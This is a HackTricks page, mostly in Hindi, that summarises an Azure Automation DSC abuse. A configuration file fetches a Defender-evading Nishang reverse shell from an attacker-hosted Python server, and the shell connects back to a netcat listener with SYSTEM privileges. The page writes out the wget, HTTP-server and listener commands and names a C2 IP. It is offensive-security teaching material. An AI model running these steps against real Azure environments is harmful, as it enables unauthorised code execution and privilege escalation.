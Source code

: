 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

यह प्रक्रिया एक संशोधित Nishang `Invoke-PowerShellTcp.ps1` पेलोड को होस्ट करने के लिए एक रिमोट सर्वर इन्फ्रास्ट्रक्चर सेट करने में शामिल है, जिसे `RevPS.ps1` कहा जाता है, जिसे Windows Defender को बायपास करने के लिए डिज़ाइन किया गया है। पेलोड को एक Kali Linux मशीन से IP `40.84.7.74` का उपयोग करके एक साधारण Python HTTP सर्वर के माध्यम से परोसा जाता है। यह ऑपरेशन कई चरणों के माध्यम से निष्पादित किया जाता है:

#### Step 1 — Create Files

* **Files Required:** दो PowerShell स्क्रिप्ट की आवश्यकता है:
1. `reverse_shell_config.ps1`: एक Desired State Configuration (DSC) फ़ाइल जो पेलोड को लाने और निष्पादित करने के लिए है। इसे [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1) से प्राप्त किया जा सकता है।
2. `push_reverse_shell_config.ps1`: VM पर कॉन्फ़िगरेशन को प्रकाशित करने के लिए एक स्क्रिप्ट, जो [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1) पर उपलब्ध है।
* **Customization:** इन फ़ाइलों में वेरिएबल और पैरामीटर को उपयोगकर्ता के विशिष्ट वातावरण के अनुसार अनुकूलित किया जाना चाहिए, जिसमें संसाधन नाम, फ़ाइल पथ, और सर्वर/पेलोड पहचानकर्ता शामिल हैं।

#### Step 2 — Zip Configuration File

* `reverse_shell_config.ps1` को एक `.zip` फ़ाइल में संकुचित किया जाता है, जिससे इसे Azure Storage Account में स्थानांतरित करने के लिए तैयार किया जा सके।
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — सेट स्टोरेज कॉन्टेक्स्ट और अपलोड करें

* ज़िप किया गया कॉन्फ़िगरेशन फ़ाइल को पूर्वनिर्धारित Azure स्टोरेज कंटेनर, azure-pentest, में Azure के Set-AzStorageBlobContent cmdlet का उपयोग करके अपलोड किया जाता है।
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Kali सर्वर GitHub रिपॉजिटरी से RevPS.ps1 पेलोड डाउनलोड करता है।
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* स्क्रिप्ट को लक्षित Windows VM और रिवर्स शेल के लिए पोर्ट निर्दिष्ट करने के लिए संपादित किया गया है।

#### Step 5 — Publish Configuration File

* कॉन्फ़िगरेशन फ़ाइल को निष्पादित किया जाता है, जिसके परिणामस्वरूप रिवर्स-शेल स्क्रिप्ट को Windows VM पर निर्दिष्ट स्थान पर तैनात किया जाता है।

#### Step 6 — Host Payload and Setup Listener

* पायथन SimpleHTTPServer को पेलोड को होस्ट करने के लिए शुरू किया जाता है, साथ ही एक Netcat लिस्नर को आने वाले कनेक्शनों को कैप्चर करने के लिए।
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* निर्धारित कार्य पेलोड को निष्पादित करता है, SYSTEM-स्तरीय विशेषाधिकार प्राप्त करता है।

#### निष्कर्ष

इस प्रक्रिया का सफल निष्पादन आगे की क्रियाओं के लिए कई संभावनाएँ खोलता है, जैसे कि क्रेडेंशियल डंपिंग या हमले को कई VMs तक बढ़ाना। गाइड Azure Automation DSC के क्षेत्र में निरंतर सीखने और रचनात्मकता को प्रोत्साहित करता है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
